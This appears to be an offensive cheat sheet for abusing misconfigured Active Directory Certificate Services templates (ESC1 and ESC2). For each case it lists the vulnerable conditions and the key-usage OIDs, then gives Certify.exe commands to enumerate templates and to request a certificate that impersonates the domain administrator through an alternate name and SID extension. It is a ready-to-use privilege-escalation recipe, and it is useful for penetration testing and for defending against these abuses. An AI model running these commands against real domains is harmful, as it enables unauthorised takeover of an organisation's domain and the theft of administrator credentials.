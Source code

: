 <br>

# <a name="2"></a>ESCx Abuses

### <a name="21"></a>2.1 &nbsp;&nbsp; ESC1

Conditions:

- ENROLLEE_SUPPLIES_SUBJECT flag is enabled allowing SAN

- Client Authentication bit is enabled
   - Smart Card Logon --> 1.3.6.1.4.1.311.20.2.2
   - PKINIT authentication --> 1.3.6.1.5.2.3.4
   - Client Authentication --> 1.3.6.1.5.5.7.3.2

- Enrollment Rights enabled for a user you control

Enumeration:

```
C:\Users\Public\Certify.exe cas
C:\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\Users\Public\Certify.exe find /domain:protectedDOMAIN
```

Exploitation:

```
C:\Users\Public\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /sidextension:DOMAIN_SID-500 /domain:DOMAIN
```

<br>

### <a name="22">2.2 &nbsp;&nbsp; ESC2

Conditions: 

- CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag (ENROLLEE_SUPPLIES_SUBJECT) is enabled allowing SAN abuse

- Any Purpose EKU is enabled

   - Any Purpose EKU --> 2.5.29.37.0

   - No EKU

- Enrollment Rights enabled for a user you control


Enumeration:

```
C:\Users\Public\Certify.exe find /enrolleeSuppliesSubject
```

Exploitation:

```
C:\Users\Public\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /sidextension:DOMAIN_SID-500 /domain:DOMAIN
```
